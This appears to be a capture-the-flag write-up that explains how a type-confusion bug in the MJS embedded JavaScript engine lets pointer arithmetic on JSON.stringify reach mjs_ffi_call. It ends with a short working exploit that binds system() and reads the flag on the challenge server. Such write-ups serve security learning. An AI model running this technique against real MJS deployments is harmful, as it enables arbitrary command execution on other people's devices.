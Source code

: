 ## Overview

This challenge is based around [MJS](https://github.com/cesanta/mjs), a Javascript engine for embedded devices.
We're provided with a handout, with relevant supporting files, the compiled binary, and a small patch file.
Looking through the patch, the author has disabled a bunch of functionality, but doesn't seem to have added any.
Thus, we're likely looking for a novel exploit across MJS more broadly, rather than in something targeted.

## MJS
As an open source project on Github, one of the first things I did was take a look at the open issues on the MJS project.
On my initial look, there's a large number of segfaults!

This was the first one that caught my eye: [link](https://github.com/cesanta/mjs/issues/230).  What stood out was the segfault on a large address, rather than just being a null pointer dereference.
```javascript
(JSON.stringify([1, 2, 3]))((JSON.stringify-6.34321e2)(JSON.stringify([1, 2, 3])));
```

Running it locally, I get the following GDB dump:

```
$rax   : 0x0000555555563b05  →  <frozen_cb+405> add BYTE PTR [rax], al
$rbx   : 0x0               
$rcx   : 0xfff2000000000000
$rdx   : 0x8               
$rsp   : 0x00007fffffffd6f8  →  0x000055555555bd86  →  <mjs_execute+3286> mov rdi, QWORD PTR [rbp-0x8]
$rbp   : 0x00007fffffffd9e0  →  0x00007fffffffdaa0  →  0x00007fffffffdaf0  →  0x00007fffffffdb30  →  0x0000000000000003
$rsi   : 0xfff2555555563b05
$rdi   : 0x00005555555812a0  →  0x0000000000000000
$rip   : 0x0000555555563b05  →  <frozen_cb+405> add BYTE PTR [rax], al
$r8    : 0x1               
$r9    : 0x00007fffffffd4c0  →  0x4008000000000000
$r10   : 0x0               
$r11   : 0x0               
$r12   : 0x00007fffffffdc48  →  0x00007fffffffdfce  →  "/home/b/ctfs/kalmar_23/mjs_win/mjs"
$r13   : 0x0000555555564020  →  <main+0> push rbp
$r14   : 0x000055555557fc78  →  0x0000555555556400  →  <__do_global_dtors_aux+0> endbr64 
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000555555554000  →  0x00010102464c457f
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffd6f8│+0x0000: 0x000055555555bd86  →  <mjs_execute+3286> mov rdi, QWORD PTR [rbp-0x8]	 ← $rsp
0x00007fffffffd700│+0x0008: 0x0000000000000000
0x00007fffffffd708│+0x0010: 0x0000000000000000
0x00007fffffffd710│+0x0018: 0x0000000000000000
0x00007fffffffd718│+0x0020: 0x0000000000000000
0x00007fffffffd720│+0x0028: 0x00007fffffffd760  →  0x00000004ffffd7a0
0x00007fffffffd728│+0x0030: 0x0000555555568098  →  <parse_bitwise_xor+168> cmp eax, 0x0
0x00007fffffffd730│+0x0038: 0x0000000055564020 ("@VU"?)
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
 → 0x555555563b05 <frozen_cb+405>  add    BYTE PTR [rax], al
   0x555555563b07 <frozen_cb+407>  add    bh, bh
   0x555555563b09 <frozen_cb+409>  dec    DWORD PTR [rax-0x77]
   0x555555563b0c <frozen_cb+412>  rex.RB enter 0x8be9, 0x0
   0x555555563b11 <frozen_cb+417>  add    BYTE PTR [rax], al
   0x555555563b13 <frozen_cb+419>  mov    rax, QWORD PTR [rbp-0x30]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "mjs", stopped 0x555555563b05 in frozen_cb (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555563b05 → frozen_cb(data=0x5555555812a0, name=0x0, name_len=0x7fffffffda68, path=0x82 <error: Cannot access memory at address 0x82>, token=0x1d1d000000000000)
[#1] 0x55555555d9f4 → mjs_exec_internal(mjs=0x5555555812a0, path=0x7fffffffdff4 "./foo.js", src=0x555555582ca0 "(JSON.stringify([1, 2, 3]))((JSON.stringify-6.34321e2)(JSON.stringify([1, 2, 3])));\n\n", generate_jsc=0x0, res=0x7fffffffdac8)
[#2] 0x55555555daf2 → mjs_exec_file(mjs=0x5555555812a0, path=0x7fffffffdff4 "./foo.js", res=0x7fffffffdb10)
[#3] 0x5555555641d8 → main(argc=0x3, argv=0x7fffffffdc48)
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  

```

Furthermore, changing the floating point number in the initial POC changes what address it crashed at!
My initial intuition was that the program was doing math off of whatever pointer/structure tracked `JSON.stringify`.

## The Vuln
After some brief RE, I found the function that implements binary operations, copied below.  Notably, this confirms my belief that MJS was just doing path on the value that tracked `JSON.stringify`!

```C++
static mjs_val_t do_op(struct mjs *mjs, mjs_val_t a, mjs_val_t b, int op) {
  mjs_val_t ret = MJS_UNDEFINED;
  bool resnan = false;
  if ((mjs_is_foreign(a) || mjs_is_number(a)) &&
      (mjs_is_foreign(b) || mjs_is_number(b))) {
    int is_result_ptr = 0;
    double da, db, result;

    if (mjs_is_foreign(a) && mjs_is_foreign(b)) {
      /* When two operands are pointers, only subtraction is supported */
      if (op != TOK_MINUS) {
        mjs_prepend_errorf(mjs, MJS_TYPE_ERROR, "invalid operands");
      }
    } else if (mjs_is_foreign(a) || mjs_is_foreign(b)) {
      /*
       * When one of the operands is a pointer, only + and - are supported,
       * and the result is a pointer.
       */
      if (op != TOK_MINUS && op != TOK_PLUS) {
        mjs_prepend_errorf(mjs, MJS_TYPE_ERROR, "invalid operands");
      }
      is_result_ptr = 1;
    }
    da = mjs_is_number(a) ? mjs_get_double(mjs, a)
                          : (double) (uintptr_t) mjs_get_ptr(mjs, a);
    db = mjs_is_number(b) ? mjs_get_double(mjs, b)
                          : (double) (uintptr_t) mjs_get_ptr(mjs, b);
    result = do_arith_op(da, db, op, &resnan);
    if (resnan) {
      ret = MJS_TAG_NAN;
    } else {
      /*
       * If at least one of the operands was a pointer, result should also be
       * a pointer
       */
      ret = is_result_ptr ? mjs_mk_foreign(mjs, (void *) (uintptr_t) result)
                          : mjs_mk_number(mjs, result);
    }
  } else if (mjs_is_string(a) && mjs_is_string(b) && (op == TOK_PLUS)) {
    ret = s_concat(mjs, a, b);
  } else {
    set_no_autoconversion_error(mjs);
  }
  return ret;
}
```

## Putting it together
From here, we just need to find what we want to call, in a way that works with the MJS calling convention.
Thankfully, MJS normally provides an easy foreign function interface (FFI), allowing one to call C functions from Javascript!
While the initial patch prevented us from calling it directly, we can use our primitive to call it.
Some quick RE shows that the target function should be `mjs_ffi_call`.
From here, a quick script, and some debugging resulted in the following:

```bash
➜  nc 54.93.211.13 10002

Welcome to mjs.
Please give input. End with "EOF":

let json_addr =         0x555555563d80;
let ffi_addr =          0x555555560110;

let make_ffi = JSON.stringify - (json_addr - ffi_addr);

let win = make_ffi('int system(char *)');
let a = win('cat /flag*');
EOF
kalmar{mjs_brok3ey_565591da7d942fef817c}

```